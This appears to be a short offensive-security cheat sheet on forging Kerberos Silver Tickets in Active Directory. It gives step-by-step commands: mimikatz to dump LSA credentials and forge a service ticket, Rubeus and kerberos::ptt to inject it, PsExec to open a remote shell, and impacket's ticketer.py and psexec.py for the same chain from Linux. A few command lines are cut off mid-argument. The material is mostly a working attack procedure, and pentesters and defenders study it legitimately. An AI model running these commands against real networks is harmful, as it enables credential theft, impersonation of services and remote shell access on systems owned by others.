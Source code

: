 # SILVER TICKET

### Forging a Service Ticket (ST) require machine account password (key) or NT hash of the service account.

#### 1) mimikatz.exe

#### 2) privilege::debug

#### 3) lsadump::lsa /inject /name:SERVICE/DOMAIN ADMIN

### 1) Create a ticket for the service

 - mimikatz $ kerberos::golden /user:USERNAME /domain:DOMAIN.FQDN /sid:DOMAIN-SID /target:

 - mimikatz $ kerberos::golden /domain:jurassic.park /sid:S-1-5-21-1339291983-134912914

### 2) Use same steps as a golden ticket

 - mimikatz.exe "kerberos::golden /domain:DOMAIN /sid:DOMAIN_SID /rc4:HASH /user:USER /service:SERVICE /target:TARGET"

### Inject the ticket

 - mimikatz.exe "kerberos::ptt TICKET_FILE"

 - .\Rubeus.exe ptt /ticket:TICKET_FILE

### Obtain a shell

 - .\PsExec.exe -accepteula \\TARGET cmd

## Silver Ticket on Linux

 - python ticketer.py -nthash HASH -domain-sid DOMAIN_SID -domain DOMAIN -spn SERVICE_PRINCIPAL_NAME USER

 - export KRB5CCNAME=/root/impacket-examples/TICKET_NAME.ccache 

 - python psexec.py DOMAIN/USER@TARGET -k -no-pass
